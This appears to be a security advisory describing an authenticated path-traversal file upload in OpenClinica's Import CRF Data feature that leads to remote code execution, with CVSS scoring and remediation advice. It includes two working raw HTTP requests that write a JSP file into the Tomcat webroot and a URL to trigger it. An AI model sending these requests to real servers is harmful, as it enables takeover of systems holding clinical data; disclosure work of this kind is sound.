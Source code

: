 # OpenClinica Import CRF Data – RCE (path traversal arbitrary file write)

A remote code execution issue via path traversal in the **Import CRF Data** workflow.

---

## Product / Versions
- OpenClinica Community Edition  
  - **3.13** – Changeset `74f4df3481b6` (2017-02-28)  
  - **3.12.2** – Changeset `347dcfca3d17` (2016-11-21)

## Affected area
`Tasks → Import CRF Data` (multipart upload parameter: `xml_file`)

## Auth
Authenticated (tested as **Data Manager**)

## Summary
The upload handler trusts the client-supplied `filename` and accepts `../` traversal, allowing writes outside the intended directory. By targeting the deployed webapp path, an attacker can write a JSP and achieve execution when the file is requested.

## Screenshots
![Proof: web shell write and reverse shell as app server user](1.png)
![Proof: absolute path write to Tomcat webapps](2.png)

## Raw requests (abridged)

**Variant 1 – relative traversal into deployed app**
```
POST /OpenClinica/ImportCRFData?action=confirm HTTP/1.1
Host: <target>:8080
Content-Type: multipart/form-data; boundary=----X
Cookie: JSESSIONID=<...>

------X
Content-Disposition: form-data; name="xml_file"; filename="../webapps/OpenClinica/shell.jsp"
Content-Type: application/xml

<%-- JSP proof-of-execution payload --%><%= System.getProperty("user.name") %>
------X--
```

**Variant 2 – absolute path on typical Debian/Ubuntu Tomcat**
```
POST /OpenClinica/ImportCRFData?action=confirm HTTP/1.1
Host: <target>:8080
Content-Type: multipart/form-data; boundary=----X
Cookie: JSESSIONID=<...>

------X
Content-Disposition: form-data; name="xml_file"; filename="../../../../../../usr/share/tomcat/webapps/OpenClinica/shell.jsp"
Content-Type: application/xml

<%-- JSP proof-of-execution payload --%><%= System.getProperty("user.name") %>
------X--
```

Then browse to:
```
http://<target>:8080/OpenClinica/shell.jsp
```

## Impact
- Arbitrary file write on the host
- Remote Code Execution in the servlet container context
- Full compromise of confidentiality, integrity, and availability

## Severity (suggested)
**CVSS v3.1:** `AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H` → **8.8 High**  
**CWE:** 22 (Path Traversal), 434 (Unrestricted File Upload)

## Remediation
- Do not use the client `filename` to build paths. Save to a fixed, non-web-served directory with a server-generated name.
- Reject `..`, path separators, and absolute paths. Enforce content-type/extension allow-lists and validate XML server-side.
- Run Tomcat/OpenClinica as a non-privileged user; make webroots non-writable; disable JSP execution if not required.

## Timeline
- 2025-10-09 → 2025-10-23: Discovered and reproduced on 3.12.2 and 3.13 images. Evidence includes Burp requests and shell session captures.
